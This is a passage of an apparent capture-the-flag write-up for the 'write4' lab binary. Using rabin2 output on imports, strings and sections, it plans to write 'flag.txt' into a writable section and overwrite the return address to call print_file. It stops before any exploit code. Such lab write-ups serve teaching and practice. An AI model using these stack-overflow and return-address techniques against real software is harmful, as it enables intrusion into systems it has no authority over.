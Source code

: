 ```bash
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```

The `print_file(char *filename)` function, as we can see using rabin2, has a PLT entry that is located at `0x00400510`.
```bash
$ rabin2 -i write4
[Imports]
nth vaddr      bind   type   name
―――――――――――――――――――――――――――――――――
1   0x00400500 GLOBAL FUNC   pwnme
2   0x00000000 GLOBAL FUNC   __libc_start_main
3   0x00000000 WEAK   NOTYPE __gmon_start__
4   0x00400510 GLOBAL FUNC   print_file
```
This means that we have two steps that we need to accomplish:
1. Load a pointer to the string "flag.txt" into RDI (in x86-64, RDI contains the first argument to a function).
2. Overwrite the return address with `0x00400510` to call `print_file("flag.txt")`.

Unfortunately, there are no useful strings in the binary. This means that we need to somehow inject the "flag.txt" string into the process.
```bash
$ rabin2 -z write4
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006b4 0x004006b4 11  12   .rodata ascii nonexistent
```

### Writing the String

Using rabin2, we can see that there are several writeable sections in the binary. We can write our "flag.txt" string in the `.data` section, which is writeable and is located at `0x00601028`. Theoretically, the `.bss` section should also work just fine.
```bash
$ rabin2 -S write4
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- 
1   0x00000238   0x1c 0x00400238   0x1c -r-- .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- .note.ABI_tag
3   0x00000274   0x24 0x00400274   0x24 -r-- .note.gnu.build_id
4   0x00000298   0x38 0x00400298   0x38 -r-- .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- .fini_array
```